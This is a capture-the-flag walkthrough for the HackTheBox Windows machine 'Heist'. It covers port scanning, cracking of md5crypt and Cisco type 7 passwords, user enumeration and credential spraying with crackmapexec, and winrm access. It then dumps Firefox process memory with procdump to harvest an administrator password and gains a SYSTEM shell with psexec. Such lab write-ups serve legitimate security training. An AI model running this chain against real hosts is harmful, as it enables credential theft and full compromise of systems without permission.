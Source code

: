 # Box Name: Heist
# Level: Easy
# OS: Windows
<hr>

Lets get started

# Recon

## Portscanning

command:```sudo nmap -A 10.129.96.157 -p- -v -T4```

```
Nmap scan report for 10.129.96.157
Host is up (0.40s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-title: Support Login Page
|_Requested resource was login.php
135/tcp   open  msrpc         Microsoft Windows RPC
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
49669/tcp open  unknown
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=264 (Good luck!)
IP ID Sequence Generation: Randomized
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-10-10T19:48:09
|_  start_date: N/A
|_clock-skew: -1s

TRACEROUTE (using port 445/tcp)
HOP RTT       ADDRESS
1   339.57 ms 10.10.16.1
2   340.07 ms 10.129.96.157

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Oct 10 20:48:49 2023 -- 1 IP address (1 host up) scanned in 436.02 seconds
```
From our nmap scan we have quite a number of ports opened. We'll start our enumeration today from port 80



# Enumeration (Port 80)

Navigate to the webpage

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/2bc80794-25ca-4678-a4fb-5ca4fb869bb6)

We get this login page. Since we don't have any creds lets login as guest

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/58e61a19-7993-42ce-bdbf-8c6d4c00e149)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/d10915da-73c3-4987-bd9a-f3993ec38178)

Nice, this is a conversation between user ```Hazard``` and the ```admin```. 

Lets check out the configuration file user ```Hazard``` sent.

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/ce07dae4-06f7-4a39-96f6-d0f0e693bc2f)

From the above screenshot we can see encrypted passwords for users ```Hazard```, ```rout3r``` and ```admin```.

Lets try to crack the first password

```
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/heist]
└─$ nano hash                                                        
                                                                                                                                                                                                                                             
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/heist]
└─$ john hash --wordlist=/usr/share/wordlists/rockyou.txt            
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
stealth1agent    (?)     
1g 0:00:01:07 DONE (2023-10-10 21:09) 0.01479g/s 51878p/s 51878c/s 51878C/s stealthy001..stcroix85
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
                                                                                                                                                                                                                                             
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/heist]
└─$ cat hash
$1$pdQG$o8nrSzsGXeaduXrjlvKc91
```
We got the password to be ```stealth1agent```. Lets try gain access using winrm

command:```evil-winrm -u hazard -i 10.129.96.157 -p 'stealth1agent' -S```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/84a4e6da-f73f-4053-8bf5-7fc5578fc32d)

oops, it didn't work

Lets try to crack the type 7 passwords. I used this online [tool](https://www.firewall.cx/cisco/cisco-routers/cisco-type7-password-crack.html) for it

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/4d258bd0-7e89-40bd-8ef3-da86a9befa38)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/8ece8d10-6f19-45d5-8f7d-6559deaea12f)

We now have 3 passwords, lets enumerate for potential users

We can try to enumerate users from the smb share using crackmapexec

command:```crackmapexec smb 10.129.94.141 -u hazard -p stealth1agent --rid-brute```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/b270dc27-6a75-47cd-8fad-70cdb37fc033)

We now have potential users.

Save the users and passwords in different files, we'll use crackmapexec to get a match we can use to login via winrm

command:```crackmapexec winrm 10.129.94.141 -u users.txt -p passwords.txt```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/e8ffff8c-6d52-4417-b959-d454035fecd2)

We got a match, now lets login with winrm

username:```chase```        password:```Q4)sJu\Y8qz*A3?d```

command:```evil-winrm -u chase -i 10.129.94.141 -p "Q4)sJu\Y8qz*A3?d"```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/18e837e5-3695-4a51-849f-9418a416e3b1)

We got user shell hehe. Lets go ahead and escalate our privileges



# Privilege Escalation

Running the ```ps``` command to check the processes running

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/d6d43f37-4ccf-4210-b6ac-680a1fa34a73)

From the above screenshot we can see ```firefox``` to be one of the processes running

Lets try to dump the process using the tool ```procdump```. You can download it [here](https://download.sysinternals.com/files/Procdump.zip)

We'll upload this to the target's machine

command:```upload procdump.exe```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/dc1db26a-3f6a-42f4-bdc3-c2df787ec936)

Nice, we can use the PID of firefox to create this dump

command:```.\procdump.exe -accepteula -ma 4120```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/997e143e-31f7-4047-bce6-a209d020c16b)

So after creating the dump, I downloaded it to my machine using the ```download``` command

```
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/heist]
└─$ ls           
Eula.txt  Procdump.zip  firefox.exe_231011_124132.dmp  hash  heist  passwords.txt  procdump.exe  procdump64.exe  procdump64a.exe  users.txt
                                                                                                                                                                                                                                             
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/heist]
└─$ file firefox.exe_231011_124132.dmp                                                                               
firefox.exe_231011_124132.dmp: Mini DuMP crash report, 18 streams, Wed Oct 11 07:11:32 2023, 0x461826 type
```
Now, lets look for creds

command:```strings firefox.exe_231011_124132.dmp| grep "password"```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/466acabe-3802-4b09-a250-ddd05224e40f)

nice nice, we got the admin password. 

Now, lets use psexec to connect

username:```administrator```      password:```4dD!5}x/re8]FBuZ```

command:```impacket-psexec administrator@10.129.94.202```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/eea8a90c-64f4-459a-a4c8-b9d10cb5f1e6)

We spwned a shell as ```nt authority\system```, this means we have successfully pwned this box.

That will be all for today
<br><br>
[Back To Home](../../index.md)



























